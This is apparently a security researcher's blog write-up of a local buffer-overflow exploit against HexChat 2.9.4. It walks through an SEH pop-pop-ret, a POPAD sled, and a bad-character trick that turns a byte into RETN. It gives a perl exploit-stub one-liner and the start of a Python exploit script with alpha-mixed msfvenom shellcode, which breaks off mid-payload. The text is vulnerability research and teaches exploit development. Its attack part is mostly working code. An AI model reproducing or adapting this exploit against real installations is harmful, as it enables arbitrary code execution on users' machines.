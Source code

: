I ran the exploit stub, followed the pop-pop-ret and then the jump, and found myself in memory that I controlled. That was the good news. Unfortunately, the bad news was that I only had a very limited amount of space to put any payload (43 bytes). My first thought was to use an egghunter, however egghunters had non-ascii characters in them, and when encoded properly, were well over 43 bytes long. This left me thinking for a good while.

After a couple days of thinking, I thought about using a fairly non-traditional method to exploit this. In the stack, way down, was a pointer to the beginning of the buffer I sent into HexChat. I was able to use the [POPAD instruction](https://en.wikipedia.org/wiki/X86_instruction_listings) to get rid of several ESP values at once, since it's Opcode was an ASCII character. By combining 38 POPAD instructions, I was able to get to the pointer in memory, and still have 5 bytes of memory to try to load it. My exploit-stub ended up looking like this:

```
mandreko$ perl -e 'print "A"x13336 . "\x4c\x4c\x77\x21" . "\x63\x64\x62\x68" . "C"x29 . "\x61"x38 . "C"x11589'
```

When I ran it through the debugger, it worked out perfectly.

{% img /images/hexchat_after_popad.png %}

## Finding the jump via corruption

With only 5 bytes remaining, and ASCII encoding requirements, I pondered a bit. I couldn't see any way to get a "JMP ESP". I found a JMP ESP in one of the loaded libraries, but I didn't have enough space to push it into memory and then RETN. For some reason, during testing, I found that some of my non-ASCII characters were bad-characters, and would get translated to RETN statements. I thought perhaps I could use a "PUSH ESP" instruction which was ASCII, and then use a bad-character to convert into a "RETN" instruction, since it typically would not be ASCII (\xc3). It ended up working. I put a "\xE9", and it converted it to "RETN" and then an "\x88". Since I'd never be hitting the "\x88" I figured this would work. I tried it, and miraculously it did! Using a corrupted character actually let it jump!

{% img /images/hexchat_push_esp.png %}

After taking the "RETN", it placed me in an area with thousands of bytes for shellcode.

{% img /images/hexchat_after_push_esp.png %}

From this point, it was just as easy as inserting some alpha-numeric encoded shellcode, and changing some lengths of junk strings.

## The final working exploit

```
#!/usr/bin/python
# HexChat 2.9.4 Local Exploit
# Bug found by Jules Carter < @iMulitia >
# Exploit by Matt "hostess" Andreko < mandreko [at] accuvant.com >
# http://www.mattandreko.com/2013/04/buffer-overflow-in-hexchat-294.html
junk1 = "B"*30
shellcode = (
# msfvenom -p windows/messagebox EXITFUNC=process BufferRegister=ESP -e x86/alpha_mixed -f c
"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b"
"\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
"\x50\x38\x41\x42\x75\x4a\x49\x78\x59\x68\x6b\x6d\x4b\x4b\x69"
"\x44\x34\x64\x64\x59\x64\x74\x71\x78\x52\x6c\x72\x33\x47\x34"
"\x71\x78\x49\x42\x44\x4e\x6b\x50\x71\x50\x30\x4e\x6b\x64\x36"
"\x54\x4c\x4c\x4b\x44\x36\x77\x6c\x4c\x4b\x33\x76\x77\x78\x4c"
"\x4b\x73\x4e\x51\x30\x4e\x6b\x75\x66\x56\x58\x72\x6f\x72\x38"
"\x51\x65\x68\x73\x43\x69\x37\x71\x38\x51\x39\x6f\x58\x61\x73"
"\x50\x4e\x6b\x30\x6c\x36\x44\x77\x54\x6c\x4b\x42\x65\x75\x6c"
"\x6e\x6b\x73\x64\x36\x48\x31\x68\x46\x61\x6a\x4a\x4e\x6b\x52"
"\x6a\x66\x78\x6e\x6b\x73\x6a\x57\x50\x43\x31\x7a\x4b\x6d\x33"
"\x34\x74\x42\x69\x6c\x4b\x47\x44\x4c\x4b\x67\x71\x48\x6e\x74"
```